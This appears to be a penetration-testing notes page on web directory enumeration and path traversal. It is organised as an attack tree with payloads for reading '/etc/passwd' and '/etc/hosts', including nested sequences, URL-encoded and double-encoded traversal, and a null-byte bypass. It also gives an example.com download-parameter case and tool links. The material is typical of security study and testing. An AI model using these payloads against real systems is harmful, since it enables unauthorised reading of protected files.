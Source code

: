 # Enumerate webserver directories

* `http-enum.nse` offers a quite extensive fingerprint, especially when including Nikto database, but there are 
no guarantees all will be seen. 
* Also try directory traversal.

## Directory traversal

```text
1 Insert relative paths into existing files (OR)
    1.1 ../../../etc/hosts
    1.2 ../../../etc/passwd
    1.3 ...
2 Absolute path from the filesystem root to directly reference a file without using any traversal sequences (OR)
    2.1 filename=/etc/hosts
    2.2 filename=/etc/passwd
    2.3 ...
3 Nested traversal sequences which will revert to simple traversal sequences when the inner sequence is stripped (OR)
    3.1 ....//
    3.2 ....\/
4 URL encoding the ../ characters (OR)
    4.1 url encoding: %2e%2e%2f
    4.2 double url encoding: %252e%252e%252f 
5 Null byte bypass
```

### Simplest form

Website has https://www.example.com/download_file.php?file=document.pdf

Pass this as the file name:

    ../../../etc/passwd

If the application does not sanitize inputs, the string is used in a system call, switches to the root and then allows 
access the `/etc/` directory and the protected passwd file.

### Null byte bypass

    filename=../../../etc/passwd%00.png

## Tools

* [Nmap](https://nmap.org)
* [http-enum.nse](https://nmap.org/nsedoc/scripts/http-enum.html)
* [FDSploit](https://github.com/chrispetrou/FDsploit)
* Developer tools browser
* [BurpSuite](https://portswigger.net/burp)